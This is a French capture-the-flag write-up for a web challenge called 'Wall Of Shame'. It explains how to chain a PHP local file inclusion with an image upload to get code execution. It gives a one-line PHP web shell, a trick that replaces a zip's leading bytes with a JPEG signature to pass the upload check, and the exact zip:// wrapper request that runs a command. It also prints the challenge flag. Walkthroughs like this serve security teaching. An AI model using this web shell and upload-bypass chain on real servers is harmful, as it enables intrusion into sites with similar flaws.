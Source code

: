 # Wall Of Shame

## Description

Êtes-vous un 1337 h4ck3r? Si oui vous n'aurez aucun mal à trouver le flag, situé à `/flag.txt`.

Sinon... vous devrez ajouter votre photo au mur de la honte!

## Solution

Il faut d'abord trouver le LFI dans l'url: `?page=whatever`. Il n'est pas possible de lire directement le flag, car `.php` est ajouté à notre input:

`Warning: include(whatever.php): failed to open stream: No such file or directory...`

Nous avons également accès à un file upload, mais le fichier ne sera jamais sauvegardé avec l'extension `.php` requis pour obtenir de l'exécution de code.

Est-il possible de référencer un fichier uploadé (donc ne se terminant pas par `.php`) via LFI (donc avec un input se terminant par `.php`)? La réponse est oui! Il suffit d'utiliser le [wrapper php zip](https://www.php.net/manual/en/wrappers.compression.php).

Avant cela, toutefois, il faudra réussir à uploadé un fichier zip alors que l'upload vérifie que le fichier est une image. Pour ce faire, il suffit de modifier les 4 premiers bytes du zip et les remplacer pour `FF D8 FF DB`, la signature d'un JPEG.

Voici donc les étapes de l'attaque:

1. Créer un fichier `pwned.php` contenant notre payload: `<?php passthru($_GET['cmd']); ?>`

2. Zippé le fichier `pwned.php` vers `pwned.zip`.

3. À l'aide de l'hex editor de votre choix (j'utilise `Frhed` sur Windows), modifier les 4 premiers bytes de `pwned.zip` pour les remplacer par la signature d'un JPEG: `FF D8 FF DB`.

4. Uploader `pwned.zip`. Votre fichier sera uploadé à un dossier et un nom aléatoire. Dans mon cas, c'est `uploads/0229294de30451724effba7a04799663/65a6539130c38d1539ce5e677318d14d.jpg`.

5. Utilisez le LFI pour obtenir de l'exécution de code en envoyant une requête à `/?page=zip://uploads/0229294de30451724effba7a04799663/65a6539130c38d1539ce5e677318d14d.jpg%23pwned&cmd=cat /flag.txt`

## Flag

FLAG-dae14a395b41019d0cd6241ddbaa1085

